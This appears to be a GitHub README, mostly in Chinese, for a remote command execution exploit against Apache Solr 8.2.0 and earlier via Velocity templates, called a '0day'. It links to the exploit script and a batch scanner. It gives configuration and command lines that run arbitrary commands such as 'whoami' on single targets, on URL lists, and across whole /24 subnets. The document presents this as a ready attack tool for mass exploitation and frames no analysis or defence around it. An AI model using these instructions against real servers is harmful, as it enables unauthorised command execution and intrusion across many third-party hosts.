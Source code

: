 # Apache Solr <=8.2.0 Velocity Template 0day Exploit

Exploit: https://github.com/k8gege/SolrExp<br>
批量需:https://github.com/k8gege/K8CScan<br>
### 环境
下载Solr 8.2.0添加core,默认配置即可。7.x版本自带core
### 配置
0x001 批量URL配置Cscan.ini<br>
[Cscan]<br>
exe=F:\Python279\python.exe<br>
arg=exp.py $ip$ whoami<br>
0x002 批量C段配置Cscan.ini<br>
[Cscan]<br>
exe=F:\Python279\python.exe<br>
arg=exp.py http://$ip$:8983 whoami<br>
### 利用
单个: python exp.py url cmd<br> 或 Cscan url<br>
批量C段: Cscan 192.168.1.8/24<br>
批量URL: Cscan (同目录放url.txt)

<img src=https://github.com/k8gege/SolrExp/blob/master/Solr0day.gif>
